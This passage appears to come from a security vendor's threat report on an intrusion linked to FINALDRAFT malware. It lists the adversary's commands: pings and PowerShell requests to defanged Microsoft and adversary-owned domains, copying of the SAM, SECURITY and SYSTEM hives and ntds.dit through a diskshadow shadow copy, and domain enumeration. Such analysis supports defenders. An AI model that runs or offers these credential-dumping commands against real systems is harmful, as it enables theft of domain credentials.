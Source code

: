 As described in the [analysis](https://www.elastic.co/security-labs/finaldraft) of FINALDRAFT, the malware defaults to `mspaint.exe` or `conhost.exe` if no target parameter is provided for an injection-related command.

### Connectivity checks

The adversary performed several connectivity tests using the `ping.exe` command and via PowerShell.

Powershell’s `Invoke-WebRequest` cmdlet is similar to `wget` or `curl,` which pulls down the contents of a web resource. This cmdlet may be used to download tooling from the command line, but that was not the case here. These requests in context with several `ping`s are more likely to be connectivity checks.

`graph.microsoft[.]com` and `login.microsoftonline[.]com` are legitimately owned Microsoft sites that serve API and web GUI traffic for Microsoft’s Outlook cloud email service and other Office 365 products.

* `ping graph.microsoft[.]com`
* `ping www.google[.]com`
* `Powershell Invoke-WebRequest -Uri \"hxxps://google[.]com\`
* `Powershell Invoke-WebRequest -Uri \"hxxps://graph.microsoft[.]com\" -UseBasicParsing`
* `Powershell Invoke-WebRequest -Uri \"hxxps://login.microsoftonline[.]com\" -UseBasicParsing`

`digert.ictnsc[.]com` and` support.vmphere[.]com` were adversary-owned infrastructure.

* `ping digert.ictnsc[.]com`
* `Powershell Invoke-WebRequest -Uri \"hxxps://support.vmphere[.]com\" -UseBasicParsing`

We cover more about these network domains in the infrastructure section below.

### Reconnaissance / enumeration / credential harvesting

The adversary executed an unknown script called `SoftwareDistribution.txt`  using the `diskshadow.exe` utility, extracted the SAM, SECURITY, and SYSTEM Registry hives, and copied the Active Directory database (`ntds.dit`). These materials primarily contain credentials and credential metadata. The adversary used the 7zip utility to compress the results:

```
diskshadow.exe /s C:\\ProgramData\\SoftwareDistribution.txt

cmd.exe /c copy z:\\Windows\\System32\\config\\SAM C:\\ProgramData\\[redacted].local\\SAM /y

cmd.exe /c copy z:\\Windows\\System32\\config\\SECURITY C:\\ProgramData\\[redacted].local\\SECURITY /y

cmd.exe /c copy z:\\Windows\\System32\\config\\SYSTEM C:\\ProgramData\\[redacted].local\\SYSTEM /y

cmd.exe /c copy z:\\windows\\ntds\\ntds.dit C:\\ProgramData\\[redacted].local\\ntds.dit /y

7za.exe a [redacted].local.7z \"C:\\ProgramData\\[redacted].local\\\"
```

The adversary also enumerated information about the system and domain:

```
systeminfo

dnscmd . /EnumZones

net group /domain

C:\\Windows\\system32\\net1 group /domain

quser

reg query HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\UUID

reg query \"HKEY_CURRENT_USER\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\UUID\"

```